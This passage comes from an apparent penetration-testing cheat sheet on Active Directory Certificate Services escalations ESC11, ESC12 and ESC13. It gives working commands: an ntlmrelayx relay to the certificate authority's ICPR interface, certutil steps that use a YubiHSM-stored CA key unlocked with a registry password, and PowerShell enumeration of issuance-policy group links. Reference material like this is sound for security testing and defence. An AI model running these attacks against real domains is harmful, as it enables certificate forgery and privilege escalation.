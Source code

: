 
## ESC11 - Relaying NTLM to ICPR

> Encryption is not enforced for ICPR requests and Request Disposition is set to Issue.

Requirements:

* [sploutchy/Certipy](https://github.com/sploutchy/Certipy) - Certipy fork
* [sploutchy/impacket](https://github.com/sploutchy/impacket) - Impacket fork

Exploitation:

1. Look for `Enforce Encryption for Requests: Disabled` in `certipy find -u user@dc1.lab.local -p 'REDACTED' -dc-ip 10.10.10.10 -stdout` output
2. Setup a relay using Impacket ntlmrelay and trigger a connection to it.
    ```ps1
    ntlmrelayx.py -t rpc://10.10.10.10 -rpc-mode ICPR -icpr-ca-name lab-DC-CA -smb2support
    ```


## ESC12 - ADCS CA on YubiHSM

The ESC12 vulnerability occurs when a Certificate Authority (CA) stores its private key on a YubiHSM2 device, which requires an authentication key (password) to access. This password is stored in the registry in cleartext, allowing an attacker with shell access to the CA server to recover the private key. 

Unlocking the YubiHSM with the plaintext password in the registry key: `HKEY_LOCAL_MACHINE\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword`.

* Importing the CA certificate into the user store
  ```ps1
  certutil -addstore -user my <CA certificate file>
  ```
* Associated with the private key in the YubiHSM2 device
  ```ps1
  certutil -csp "YubiHSM Key Storage Provider" -repairstore -user my <CA Common Name>
  ```
* Finally use `certutil -sign ...`



## ESC13 - Issuance Policy

> If a principal (user or computer) has enrollment rights on a certificate template configured with an issuance policy that has an OID group link, then this principal can enroll a certificate that allows obtaining access to the environment as a member of the group specified in the OID group link.

**Requirements**

* The principal has enrollment rights on a certificate template
* The certificate template has an issuance policy extension
* The issuance policy has an OID group link to a group
* The certificate template defines EKUs that enable client authentication

```ps1
PS C:\> $ESC13Template = Get-ADObject "CN=ESC13Template,$TemplateContainer" -Properties nTSecurityDescriptor $ESC13Template.nTSecurityDescriptor.Access | ? {$_.IdentityReference -eq "DUMPSTER\ESC13User"}
AccessControlType     : Allow

# check if there is an issuance policy in the msPKI-Certificate-Policy
PS C:\> Get-ADObject "CN=ESC13Template,$TemplateContainer" -Properties msPKI-Certificate-Policy
msPKI-Certificate-Policy : {1.3.6.1.4.1.311.21.8.4571196.1884641.3293620.10686285.12068043.134.3651508.12319448}

# check for OID group link
PS C:\> Get-ADObject "CN=12319448.2C2B96A74878E00434BEDD82A61861C5,$OIDContainer" -Properties DisplayName,msPKI-Cert-Template-OID,msDS-OIDToGroupLink
```
